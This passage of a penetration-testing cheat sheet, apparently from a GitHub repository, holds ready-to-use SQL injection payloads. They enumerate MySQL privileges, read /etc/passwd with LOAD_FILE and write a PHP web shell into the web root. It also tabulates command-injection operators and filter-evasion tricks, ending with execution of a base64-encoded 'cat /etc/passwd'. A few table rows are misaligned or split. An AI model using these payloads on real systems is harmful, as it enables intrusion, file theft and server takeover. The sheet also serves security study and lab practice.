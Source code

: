 | `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find if all user privileges                              |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL     |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`                                                                                   | Read local file                                          |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'`                                                               | Write a string to a local file                           |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`                                  | Write a web shell into the base web directory            |

## Commands injections

| Injection operator | Injected character | URL - encoded character            | Executed Command                           |
| ------------------ | ------------------ | ---------------------------------- | ------------------------------------------ |
| Semicolon          | ;                  | %3b                                | Both                                       |
| New Line           | \n                 | %0a                                | Both                                       |
| Background         | &                  | %26                                | Both (second output generally shown first) |
| Pipe               | %7c                | Both (only second output is shown) |                                            |
| AND                | &&                 | %26%26                             | Both (only if first succeeds)              |
| OR                 | \|\|               | %7c%7c                             | Second (only if first fails)               |
| Sub-Shell          | \`\`               | %60%60                             | Both (Linux-only)                          |
| Sub-Shell          | $()                | %24%28%29                          | Both (Linux-only)                          |

#### Command injection Bypass

| Command                                                      | Description                                                                      |
| ------------------------------------------------------------ | -------------------------------------------------------------------------------- |
| `printenv`                                                   | Can be used to view all environment variables                                    |
| `%09`                                                        | Using tabs instead of spaces                                                     |
| `${IFS}`                                                     | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `{ls,-la}`                                                   | Commas will be replaced with spaces                                              |
| `${PATH:0:1}`                                                | Will be replaced with /                                                          |
| `${LS_COLORS:10:1}`                                          | Will be replaced with ;                                                          |
| `$(tr '!-}' '"-~'<<<[)`                                      | Shift character by one (\[ -> )                                                  |
| `' or "`                                                     | Total must be even                                                               |
| `$@ or \`                                                    | Linux only                                                                       |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases                                              |
| `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique                                               |
| `echo 'whoami' \| rev`                                       | Reverse a string                                                                 |
| `$(rev<<<'imaohw')`                                          | Execute reversed command                                                         |
| `echo -n 'cat /etc/passwd`                                   | grep 33' \| base64 Encode a string with base64                                   |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string                                                       |
